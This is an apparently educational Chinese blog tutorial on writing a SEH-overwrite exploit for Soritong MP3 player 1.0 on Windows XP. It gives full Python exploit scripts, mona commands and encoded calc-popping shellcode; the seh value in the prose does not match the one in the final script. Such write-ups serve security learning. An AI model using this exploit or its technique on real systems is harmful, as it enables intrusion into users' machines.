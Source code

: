 title: exploit编写教程2：跳转到shellcode
date: 2015-12-16 10:23:48
tags: exploit编写
---

这个是基于SEH的exploit，SEH的原理大家去搜索，网上有很多资料，本文就不赘述了。
<!-- more -->

# 试验环境
- 测试平台： Microsoft Windows XP SP3
- 漏洞软件：[Soritong MP3 player 1.0](http://terenceli.github.io/assets/file/seh-exploit/soritong10.exe
)
- 分析工具：Immunity Debugger
- 漏洞描述：通过创建一个畸形皮肤文件将触发Soritong MP3 player 1.0溢出。

#漏洞触发
用python创建一个ui.txt文件并放到skin\default文件夹下面
```
#!/usr/bin/python
filename = "ui.txt"
junk = 'A' * 5000
f = open(filename,'w')
f.write(junk)
f.close()
```
打开Soritong，可以看到程序闪退。
使用Immunity Debugger加载Soritong，F9运行，然后查看SEH链（view -> SEH chain），发现next SEH和SEH handler都被 A 覆盖了
![](http://ww4.sinaimg.cn/large/005CA6ZCgw1ez1aw1va0oj307f03pglt.jpg)

当异常发生时，程序会跳转到SEH handler去执行，通过将这个handler的值设置为程序自带模块的一个pop/pop/ret地址，能够实现程序跳转到next seh pointer去，在next seh中需要做的就是跳转到shellcode执行。shellcode的布局大致如下：
```
[junk][next seh][seh][shellcode]
```
next seh是一个跳转到shellcode的指令，seh是一个程序自带模块的p/p/r地址。
这里再解释一下pop pop ret指令的作用，当异常发生的时候，异常分发器创建自己的栈帧，会将EH handler成员压入新创的栈帧中，在EH结构中有一个域是EstablisherFrame。这个域指向异常注册记录(next seh)的地址并被压入栈中，当一个函数被调用的时候被压入的这个值都是位于ESP+8的地方。使用pop pop ret后，就会将next seh的地址放到EIP中。

# 要精确定位 SEH 的偏移地址
需要构造特殊的唯一字符串模型来覆盖缓冲区
Immunity Debugger再次加载Soritong，在命令行窗口输入：
```
!mona create_pattern 5000
```

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez1b8xtm4nj30k404ugne.jpg)

从Log data中可知，pattern文件在C:\D\mona-master\output\Soritong\pattern.txt，
提取出生成的5000个字符文件，放入p.txt，并替换ui.txt中的5000个字符。脚本如下：
```
#!/usr/bin/python
filename = "ui.txt"

fp = open("p.txt",'r')
junk = fp.read()

f = open(filename,'w')
f.write(junk)
f.close()
```
将生成的ui.txt覆盖skin\default中的ui.txt
在Immunity Debugger中查看SEH chain：

![](http://ww3.sinaimg.cn/large/005CA6ZCjw1ez1bo95bd0j307f02dmxd.jpg)

nseh 的值为：35744134 ，在命令行输入
```
!mona pattern_offset 35744134
```
查找nseh偏移

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1ez1bq0ehlzj30ef04wwfs.jpg)

nseh的偏移为：584，则seh handler的偏移：584 + 4 =588

此时我们再用如下脚本测试一下位置是否正确：
```
#!/usr/bin/python
filename = "ui.txt"
junk = 'A' * 584
nseh = 'B' * 4
seh = 'C' * 4
data = junk + nseh + seh
f = open(filename,'w')
f.write(data)
f.close()
```

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1ez1c47xmhvj307e032wep.jpg)

# 查找 p/p/r 指令序列
再次加载目标程序，在命令行窗口输入：
```
!mona rop
```
在rop.txt中查找合适的 p/p/r指令地址

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1ez1if82tnaj30el03njsl.jpg)

选用 0x1001dd61 （选地址时，要注意shellcode截断）

# 构造最终的输入文件
一个short jmp机器码是eb，跟上跳转距离，跳过6字节的short jmp机器码为eb 06。所以使用0xeb,0x06,0x90,0x90覆盖 next seh。

最终的shellcode就是

junk:584字节 ‘A’

next seh:”\xeb\x06\x90\x90”

seh:”\x26\x80\x45\x00”

shellcode：完成功能的，随便找了一个弹计算器的

并且在最后加了一些垃圾数据
```
filename = "ui.txt"
junk = "A" * 584
nseh = "\xeb\x06\x90\x90"
seh = "\x61\xdd\x01\x10"
shellcode = ("\xeb\x03\x59\xeb\x05\xe8\xf8\xff\xff\xff\x4f\x49\x49\x49\x49\x49"
"\x49\x51\x5a\x56\x54\x58\x36\x33\x30\x56\x58\x34\x41\x30\x42\x36"
"\x48\x48\x30\x42\x33\x30\x42\x43\x56\x58\x32\x42\x44\x42\x48\x34"
"\x41\x32\x41\x44\x30\x41\x44\x54\x42\x44\x51\x42\x30\x41\x44\x41"
"\x56\x58\x34\x5a\x38\x42\x44\x4a\x4f\x4d\x4e\x4f\x4a\x4e\x46\x44"
"\x42\x30\x42\x50\x42\x30\x4b\x38\x45\x54\x4e\x33\x4b\x58\x4e\x37"
"\x45\x50\x4a\x47\x41\x30\x4f\x4e\x4b\x38\x4f\x44\x4a\x41\x4b\x48"
"\x4f\x35\x42\x32\x41\x50\x4b\x4e\x49\x34\x4b\x38\x46\x43\x4b\x48"
"\x41\x30\x50\x4e\x41\x43\x42\x4c\x49\x39\x4e\x4a\x46\x48\x42\x4c"
"\x46\x37\x47\x50\x41\x4c\x4c\x4c\x4d\x50\x41\x30\x44\x4c\x4b\x4e"
"\x46\x4f\x4b\x43\x46\x35\x46\x42\x46\x30\x45\x47\x45\x4e\x4b\x48"
"\x4f\x35\x46\x42\x41\x50\x4b\x4e\x48\x46\x4b\x58\x4e\x30\x4b\x54"
"\x4b\x58\x4f\x55\x4e\x31\x41\x50\x4b\x4e\x4b\x58\x4e\x31\x4b\x48"
"\x41\x30\x4b\x4e\x49\x38\x4e\x45\x46\x52\x46\x30\x43\x4c\x41\x43"
"\x42\x4c\x46\x46\x4b\x48\x42\x54\x42\x53\x45\x38\x42\x4c\x4a\x57"
"\x4e\x30\x4b\x48\x42\x54\x4e\x30\x4b\x48\x42\x37\x4e\x51\x4d\x4a"
"\x4b\x58\x4a\x56\x4a\x50\x4b\x4e\x49\x30\x4b\x38\x42\x38\x42\x4b"
"\x42\x50\x42\x30\x42\x50\x4b\x58\x4a\x46\x4e\x43\x4f\x35\x41\x53"
"\x48\x4f\x42\x56\x48\x45\x49\x38\x4a\x4f\x43\x48\x42\x4c\x4b\x37"
"\x42\x35\x4a\x46\x42\x4f\x4c\x48\x46\x50\x4f\x45\x4a\x46\x4a\x49"
"\x50\x4f\x4c\x58\x50\x30\x47\x45\x4f\x4f\x47\x4e\x43\x36\x41\x46"
"\x4e\x36\x43\x46\x42\x50\x5a")
junk2="\x90" * 1000;
data = junk + nseh + seh + shellcode + junk2
f = open(filename,'w')
f.write(data)
f.close()
```

运行目标程序，OK！！！！计算器成功弹出来了

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1ez1igyvjt5j30es08gtb2.jpg)

# 参考文献
[exploit编写笔记2——基于SEH的exploit](exploit编写笔记2——基于SEH的exploit)
<https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/>


